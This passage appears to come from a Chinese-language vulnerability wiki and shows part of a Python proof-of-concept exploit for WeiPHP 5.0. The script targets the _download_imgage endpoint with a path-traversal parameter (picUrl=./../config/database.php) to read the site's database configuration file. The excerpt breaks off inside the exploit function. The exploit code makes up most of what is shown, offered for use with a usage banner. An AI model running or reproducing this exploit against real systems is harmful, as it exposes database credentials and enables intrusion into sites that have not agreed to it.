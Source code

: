![](image/weiphp-13.png)

可以看到文件名，根据url地址访问选择下载即可

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech


import requests
import random
import re


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Weiphp5.0                                                \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    upload_url = target_url + "/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
```